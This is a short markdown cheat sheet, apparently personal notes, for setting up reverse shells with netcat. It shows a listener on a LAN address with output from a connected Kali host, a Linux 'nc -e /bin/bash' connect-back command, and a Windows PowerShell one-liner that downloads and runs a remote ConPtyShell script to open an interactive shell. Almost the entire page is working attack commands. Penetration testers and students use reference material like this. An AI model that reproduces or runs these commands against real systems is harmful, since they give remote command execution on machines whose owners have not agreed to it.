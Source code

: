 [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## start listening
Server side ip: 192.168.1.106
```bash
sudo nc -lvn -s 192.168.1.106 -p 88 
# Listening on 192.168.1.106 88
# Connection received on 192.168.1.108 49926
# whoami
# kali
# uname -a
# Linux kali 5.17.0-kali3-amd64 #1 SMP PREEMPT Debian 5.17.11-1kali1 (2022-05-30) x86_64 GNU/Linux
```


## connect from remote 
Client side ip: 192.168.1.108
```bash
nc -e /bin/bash 192.168.1.106 88 
```


## Windows
```bash
# Server Side:
stty raw -echo; (stty size; cat) | sudo nc -lvn -s 192.168.1.106 -p 88 


# Client Side:
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.1.106 88 
```
